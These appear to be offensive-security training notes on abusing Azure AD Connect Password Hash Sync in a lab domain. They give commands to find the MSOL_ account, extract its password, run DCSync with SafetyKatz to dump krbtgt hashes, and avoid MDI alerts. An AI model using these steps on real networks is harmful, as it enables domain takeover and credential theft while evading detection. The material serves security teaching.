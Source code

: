 • An on-premises AD can be integrated with Azure AD using Azure AD
Connect with the following methods:
– Password Hash Sync (PHS)
– Pass-Through Authentication (PTA)
– Federation
• Azure AD Connect is installed on-premises and has a high privilege
account both in on AD and Azure AD!


• Let's target PHS.
• It shares users and their password hashes from on-premises AD to Azure AD.
• A new users MSOL_ is created which has Synchronization rights (DCSync) on the domain!

#### Attacking Azure AD Integration - PHS

Enumerate the PHS account and server where AD Connect is installed.

Using PowerView:

```
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local
```

Using the ActiveDirectory module:

```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -
Server techcorp.local -Properties * | select
SamAccountName,Description | fl
```

We already have administrative access to us-adconnect as helpdeskadmin.

With administrative privileges, if we run adconnect.ps1, we can extract the credentials of the MSOL_ account used by AD Connect in clear-text

```
.\adconnect.ps1
```

With the password, we can run commands as MSOL_

```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

And can then execute the DCSync attack:

```
SafetyKatz.exe '"lsadump::dcsync /user:us\krbtgt"'
```

```
SafetyKatz.exe '"lsadump::dcsync /user:techcorp\krbtgt
/domain:techcorp.local"'
```

Please note that because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the MSOL_ account will be excluded from tools like MDI! This will allow us to run DCSync without any alerts!
